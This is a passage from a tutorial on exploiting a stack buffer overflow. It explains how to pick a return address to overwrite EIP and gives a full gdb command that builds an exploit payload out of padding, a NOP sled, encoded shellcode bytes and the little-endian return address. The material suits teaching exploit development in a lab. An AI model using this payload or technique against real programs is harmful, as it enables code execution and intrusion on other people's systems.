 Here, we now have to choose an address to which we refer the EIP and which reads and executes one byte after the other starting at this address. In this example, we take the address 0xffffd64c. Illustrated, it then looks like this:
[[buffer return.png]]

After selecting a memory address, we replace our "\x66" which overwrites the EIP to tell it to jump to the 0xffffd64c address. Note that the input of the address is entered backward.

```
(gdb) run $(python -c 'print "\x55" * (1040 - 124 - 95 - 4) + "\x90" * 124 + "\xbe\xf9\xbf\x0e\x77\xda\xdb\xd9\x74\x24\xf4\x5a\x31\xc9\xb1\x12\x31\x72\x12\x03\x72\x12\x83\x3b\xbb\xec\x82\x8a\x1f\x07\x8f\xbf\xdc\xbb\x3a\x3d\x6a\xda\x0b\x27\xa1\x9d\xff\xfe\x89\xa1\x32\x80\xa3\xa4\x35\xe8\x39\x5d\xc9\x51\x55\x63\xd5\xdb\xcf\xea\x34\xab\x76\xbd\xe7\x98\xc5\x3e\x81\xff\xe7\xc1\xc3\x97\x99\xee\x90\x0f\x0e\xde\x79\xad\xa7\xa9\x65\x63\x6b\x23\x88\x33\x80\xfe\xcb" + "\x4c\xd6\xff\xff"')
```

